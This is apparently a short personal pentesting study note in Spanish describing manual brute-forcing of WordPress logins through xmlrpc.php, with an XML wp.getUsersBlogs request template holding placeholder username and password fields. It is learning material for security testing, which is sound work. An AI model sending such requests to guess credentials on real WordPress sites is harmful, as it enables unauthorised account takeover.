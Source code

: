--------------
- Tags: #web #scripting #bash #herramientas #wordpress 
----------------------

SI quisiéramos aplicar fuerza bruta en un [[WordPress]] de la misma forma que hace [[Wpscan]] pero de forma manual, para descubrir credenciales válidas, sería necesario tramitar una petición por el método POST al archivo **xmlrpc.php** tramitando una estructura en xml, como se detalla a continuación:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Usuario</value></param> 
<param><value>Contraseña</value></param> 
</params> 
</methodCall>
```

![[Pasted image 20230611231007.png]]

